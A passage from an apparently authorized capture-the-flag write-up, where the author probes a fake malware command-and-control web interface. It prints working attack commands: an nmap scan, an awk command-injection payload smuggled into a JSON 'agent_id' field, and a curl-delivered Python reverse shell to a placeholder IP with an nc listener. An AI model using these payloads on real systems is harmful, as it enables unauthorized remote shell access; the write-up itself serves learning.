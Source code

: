 you can find for reference a cleaned up reversed version of the malware [at the bottom of this article](#reversed-vpnupdaterdll) .


### 3 : Web pentest

We already found the C2 url, and tried to enumerate the API endpoints on port 3000, but there's not much to do, we only have:
- `/login` (gives a token)
- `/secretkey` disabled
- `/` also disabled, was used to send the "composite key" to the server.

The challenge description tells use port scanning is authorized, so let's do that!

```bash
sudo nmap -sS -sV -sC -v -Pn -O 163.172.66.233

	3000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.11.2)
	5000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.11.2)
```

We have port 5000 open, and it's a C2 web interface!

![[comcyber25.png|don't get *too* excited, it's all fake static data...]]

But we can't interact a lot with it, as it's a fake interface with dummy data...
Still we find one api endpoint, `/api/refresh` , a POST endpoint that takes a numerical `agent_id` parameter... Let's fuzz that with our custom wordlist!

```bash
curl 'http://163.172.66.233:5000/api/refresh' -X POST -H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.Z8iYXQ.iHPNCt_USDQX8EKrOQrrralWdLM' -H 'Content-Type: application/json' --data-raw '{ "agent_id" : "\" "}'

	{"message":"awk: line 1: runaway string constant \") print $4 ...\n"}

```

Ah! a single quote triggers an `awk` error, our input is noit correctly sanitized!
[GTFOBins](https://gtfobins.github.io/gtfobins/awk/) tells us we can execute system commands from awk.
We have to fix a bit our payload to close some quotes and not trigger errors anymore, but we get:

```bash
{ "agent_id" : "\")}\n BEGIN {system(\"/bin/whoami\")} # "}

	{"message":"c2-web"}
```

Now to a reverse shell! There are easier ways, but we discover python is available on the server, and to not get lost with quotes escaping, we will encode our ip adress to a bytes array.

```bash
# on one tab, our listener:
nc -lnvp 8000

# trigger it
curl 'http://163.172.66.233:5000/api/refresh' -X POST -H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.Z8iYXQ.iHPNCt_USDQX8EKrOQrrralWdLM' -H 'Content-Type: application/json' --data-raw '{ "agent_id" : "a\")}\n BEGIN {system(\"/bin/python3 -c '\''import sys,socket,os,pty;s=socket.socket();s.connect((bytes([YOUR_IP_HERE]).decode(),8000));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(bytes([98,97,115,104]).decode())'\'' \")} \n #"}'

	c2-web@2cb7d7bf8458:/app$
	ls
		app.py	flag_3.txt  mise.toml  requirements.txt  static
	cat flag_3.txt
		RM{...}
```
